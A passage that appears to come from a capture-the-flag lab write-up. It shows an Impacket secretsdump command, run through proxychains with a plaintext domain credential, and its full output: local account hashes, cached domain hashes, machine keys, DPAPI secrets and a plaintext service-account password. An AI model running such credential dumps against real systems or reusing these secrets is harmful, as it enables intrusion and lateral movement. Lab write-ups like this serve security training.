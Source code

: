 ## Enumerate secrets on Server1

```shell
proxychains secretsdump.py 'corp.thereserve.loc/svcscanning:Password1!'@10.200.118.31
```

```text
Impacket for Exegol - v0.10.1.dev1+20230318.114933.11c51f7 - Copyright 2022 Fortra - forked by ThePorgs

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.118.31:445  ...  OK
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x90cf5c2fdcffe9d25ff0ed9b3d14a846
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e2c7044e93cf7e4d8697582207d6785c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
THMSetup:1008:aad3b435b51404eeaad3b435b51404ee:d37f688ca5172b5976b714a8b54b40f4:::
HelpDesk:1009:aad3b435b51404eeaad3b435b51404ee:f6ca2f672e731b37150f0c5fa8cfafff:::
sshd:1010:aad3b435b51404eeaad3b435b51404ee:48c62694fd5bbca286168e2199f9af49:::
[*] Dumping cached domain logon information (domain/username:hash)
CORP.THERESERVE.LOC/Administrator:$DCC2$10240#Administrator#b08785ec00370a4f7d02ef8bd9b798ca: (2023-04-01 03:13:47)
CORP.THERESERVE.LOC/svcScanning:$DCC2$10240#svcScanning#d53a09b9e4646451ab823c37056a0d6b: (2023-05-26 18:56:39)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
CORP\SERVER1$:aes256-cts-hmac-sha1-96:85d61453e0c42c78171f3e0d31902ebed42ef0e3601f070640d1a92be4527a6b
CORP\SERVER1$:aes128-cts-hmac-sha1-96:1c6a11defdb5701c44dc685af1be6b52
CORP\SERVER1$:des-cbc-md5:ec311346ef26cb31
CORP\SERVER1$:plain_password_hex:b70a5278ff70a2f748330cc20a7247f90c405f2fb0d57d077355286f936d15b971576dc842651fde41781658a7eba6806c449f22086c955698b14292731b346bc7b8dd6236be126e4e85d652e71408ac4dd23556f3730f56401b5f5a6340583c4bbc48c38b669251e54f61b8674c8d30d4f0c7b1fb520d57903d7f6dfa333e246a5e9ef5adbdfd51ddc22f6a0815233f781def24a2211210d8a38ba4a8d8c31ea6f3db09c8202add8bb2cb36bedfa65903b801ea2caddf785bd25e94524c8aed9babfdaff6cd80f93a3ca10f60386131c8bcaeef4d9bf487aed8e1365ca8f78372ff21110f5eb941266ad51af5a24d62
CORP\SERVER1$:aad3b435b51404eeaad3b435b51404ee:992bd8a98611ccf69caa87864455e568:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xb4cfb5032a98c1b279c92264915da1fd3d8b1a0d
dpapi_userkey:0x3cddfc2ba786e51edf1c732a21ffa1f3d19aa382
[*] NL$KM 
 0000   8D D2 8E 67 54 58 89 B1  C9 53 B9 5B 46 A2 B3 66   ...gTX...S.[F..f
 0010   D4 3B 95 80 92 7D 67 78  B7 1D F9 2D A5 55 B7 A3   .;...}gx...-.U..
 0020   61 AA 4D 86 95 85 43 86  E3 12 9E C4 91 CF 9A 5B   a.M...C........[
 0030   D8 BB 0D AE FA D3 41 E0  D8 66 3D 19 75 A2 D1 B2   ......A..f=.u...
NL$KM:8dd28e67545889b1c953b95b46a2b366d43b9580927d6778b71df92da555b7a361aa4d8695854386e3129ec491cf9a5bd8bb0daefad341e0d8663d1975a2d1b2
[*] _SC_SYNC 
svcBackups@corp.thereserve.loc:q9nzssaFtGHdqUV3Qv6G
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```
